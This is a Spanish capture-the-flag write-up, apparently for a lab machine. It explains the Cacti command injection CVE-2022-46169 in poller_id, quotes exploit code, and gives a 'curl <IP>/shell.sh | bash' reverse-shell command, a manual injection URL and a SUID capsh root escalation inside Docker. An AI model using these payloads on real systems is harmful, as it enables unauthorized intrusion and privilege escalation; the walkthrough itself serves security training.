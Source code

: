 ```
			// ...
			if (cacti_sizeof($items)) {
				foreach($items as $item) {
					switch ($item['action']) {
					// ...
					case POLLER_ACTION_SCRIPT_PHP: /* script (php script server) */
						// ...
						$cactiphp = proc_open(read_config_option('path_php_binary') . ' -q ' . $config['base_path'] . '/script_server.php realtime ' . $poller_id, $cactides, $pipes);
						// ...
```

Cuando se llama ```poll_for_data()``` se recuperan algunos parámetros de la peticion, si el ```action``` de ```poller_item``` entra el case ```POLLER_ACTION_SCRIPT_PHP```, la función ```proc_open``` ejecuta un script PHP

Y uno de los parametros es ```poller_id```, y se recupera a través de la función ```get_filter_request_var()```, si buscan esa funcion en google, se daran cuenta que perimte insertar cadenas arbitrarias, esta variable de ```poller_id``` se inserta luego en la cadena que se le pasa a proc_open, por lo que nosotros podemos indicarle que ejecute cualquier otra cosa en ```poller_id```, lo que conduce a una vulnerabilidad de inyección de comandos.

Al buscar en google podemos encontrar un par de exploits, usare este: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

Si vemos un poco el codigo:

```python
    url = f'{args.target}/remote_agent.php'
    params = {'action': 'polldata', 'host_id': host_id,
              'poller_id': payload, 'local_data_ids[]': local_data_ids}
    headers = {'X-Forwarded-For': '127.0.0.1'}
```

Vemos como en el parametro ```poller_id``` le esta adjuntando nuestro payload, que es esto declarado mas aca arriba: ```payload = f'; /bin/sh -c "{cmd}"'```, 

Solo queda ejecutar el exploit asi: ```python3 CVE-2022-46169.py http://10.10.11.211 -c "curl <tu_IP>:8080/shell.sh | bash"```

Si quieren hacer una explotacion manual, apunten a este recurso:

```/remote_agent.php?action=polldata&poller_id=;bash -c '<comando>'```

Y ya nos llego la rev shell:

![](/assets/img/monitorsTwo/3.png)


## Escalada de Docker

Ahora buscaremos binarios con permisos SUID: ```find / -perm -u=s -type f 2>/dev/null```

Podemos ver el binario: ```/sbin/capsh```

Si haces una busqueda en GFTObins encontramos que nos podemos hacer root: [](https://gtfobins.github.io/gtfobins/capsh/#suid)

```
www-data@50bca5e748b0:/sbin$ ./capsh --gid=0 --uid=0 --
./capsh --gid=0 --uid=0 --
whoami 
root
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

```